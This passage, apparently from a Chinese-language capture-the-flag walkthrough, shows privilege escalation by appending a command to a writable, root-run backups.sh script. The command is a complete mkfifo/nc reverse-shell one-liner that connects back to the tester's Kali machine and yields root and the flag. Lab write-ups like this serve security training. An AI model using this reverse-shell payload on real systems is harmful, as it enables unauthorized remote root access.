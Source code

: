 随后我们来到了 `/opt/scripts` 目录下，因为之前我们知道了 `backups.sh` 它只能 `root` 用户和 `www-data` 用户权限去修改它：

  

![](https://pic3.zhimg.com/80/v2-d340e05c1537dfe63e3ce91771d1ca4a_720w.webp)

  

所以我们就可以利用这段代码来反弹一个 `shell` 到 `KALI`，反弹回来的`shell`自然就是`root`权限！

先是我们在 KALI `nc` 监听 `8888` ，然后输入这段代码：

```text
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.128 8888 >/tmp/f" >> backups.sh
```

  

![](https://pic1.zhimg.com/80/v2-99f2f5efea0c06b1ab2f932d445cfd88_720w.webp)

  

这个时候就成功获取到 `root` 权限，拿到 `FLAG`：

  

![](https://pic1.zhimg.com/80/v2-9e03285b217b333dc23f4cf7f619fd28_720w.webp)